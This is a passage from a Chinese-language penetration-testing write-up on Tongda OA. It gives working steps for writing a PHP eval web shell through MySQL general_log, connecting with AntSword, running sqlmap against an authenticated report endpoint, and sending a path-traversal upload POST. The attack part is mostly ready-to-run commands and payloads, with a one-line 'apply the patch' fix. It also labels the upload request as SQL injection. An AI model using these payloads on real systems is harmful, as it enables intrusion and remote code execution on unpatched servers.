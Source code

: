 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HyOULN4E985kvBGPvVPuWQzeCbpJVn45Av02o8jQzziajUdUL8uB7Hwg/640?wx_fmt=png)  
重新登录之后我们知道写 shell 需要知道一定的路径，这个时候我们可以先查看一下路径，我们只是进入了数据库，可以根据数据库的信息进行猜测

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HlDVGOicibzMNVCfYOaR50cHq2OR54rCibRqPam3aickGEJg0fyBUIy7y0A/640?wx_fmt=png)  
这个时候我们可以知道根目录是 OA17  
接着对其进行写 shell 操作  
set global general_log = on;  
set global general_log_file = ‘C:/OA17/webroot/1.php’;  
select ‘<?php eval($_POST[8]);?>’;

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HvfkhgUuZR6nAibYB4ibB7szxke0lsXx4O1vM2Uwz1tiaqHeFXs51ib8xibQ/640?wx_fmt=png)  
成功写入，连蚁剑

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HgP8hIGiacsWp5cfUxUhrSfAfuiaQA8q06iaibN9BBQMHEybicaeR8pd6DkQ/640?wx_fmt=png)  
成功 getshell!

  
**5、修复建议**

更新官方发布补丁

  

04

11.5 注入漏洞

  

**报表处 sql 注入**
--------------

条件: 需要一个账号  
URL:`general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2*`

  
sqlmap:`python3 sqlmap.py -u "xxxx.com/general/appbuilder/web/report/repdetail/edit?link_type=false&slot={}&id=2*" --cookie="你的cookie"`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HCADPNGZuUwke31c4TjWdvq99S2OGMfhtQYE4n4ISwC2os2FEFq8Utw/640?wx_fmt=png)

**查询日程处 sql 注入**
----------------

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoARhQ5GhJAK4QkovMz3g8HPOdBcAgxCOaP7fkJPDA8J9luibQrLyBLDDzld7J38Hl4IlpgjiamYfaA/640?wx_fmt=png)  
条件：需要账号  
POST 包：

```
POST /general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1
Host:192.168.179.128:96
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: keep-alive
Content-Length: 855
Content-Type: multipart/form-data; boundary=abc


--abc
Content-Disposition: form-data; 


<?php echo test?>


--abc--
```